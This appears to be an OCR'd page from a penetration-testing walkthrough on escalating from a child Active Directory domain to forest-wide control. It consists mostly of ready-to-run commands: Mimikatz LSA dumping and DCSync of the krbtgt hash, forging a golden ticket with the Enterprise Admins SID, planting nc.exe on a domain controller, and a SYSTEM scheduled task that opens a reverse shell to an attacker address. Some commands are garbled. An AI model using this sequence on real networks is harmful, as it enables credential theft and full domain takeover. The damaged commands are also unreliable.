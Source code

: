 ## Steps to Compromise
Domains in the same forest have implicit two-way trust with other domains. There is a trust key 
between the parent and child domains. One way of escalating privileges between domain 
and domain is with the krbtgt hash.
We will abuse SID history to allow ad user to access domain via the Enterprise Admins group 
sid
```
Invoke-Mimikatz -Command '"lsadump::lsa /patch"'
```
Now We need to grab the krbtgt hash, we can do this by doing a dcsync against domain.
```
Invoke-Mimikatz -Command '"lsadump::dcsyn /domain:[domain]
/all
```
Now create and pass the ticket, to add SID History of the Enterprise Admin group.
```
Invoke-Mimikatz -Command '"kerberos::golden /user:examad 
/domain:domain /sid:[sid] 
/sids:[sid] 
/krbtgt:[krbtgt] /ptt”’
```
Let’s verify by running a gwmi command.
```
gwmi -class win32_operatingsystem -ComputerName [computername]
```
Now let’s upload nc.exe to a directory on DC
```
Copy-Item .\nc.exe \\[domain]\C$\Users\Public\Downloads
```
Now we can create a scheduled task to execute nc.exe and giving us a reverse shell on port 443.
```
schtasks /create /S [domain] /SC Weekly /RU "NT 
Authority\SYSTEM" /TN "WINNER" /TR "C:\Users\Public\Downloads\nc.exe -e cmd 
[ip] 443"
```
Now We can Run the scheduled task:
```
schtasks /Run /S [domain /TN "WINNER"
```
Once the scheduled task runs, we catch a shell from our netcat listener on port 443 as SYSTEM.
```
nc -lvnp 443
whoami
hostname
```
We can add examad to the local administrator group to become a Domain Admin on domain
```
net localgroup "Administrators" ad /add
net localgroup "Administrators"
```

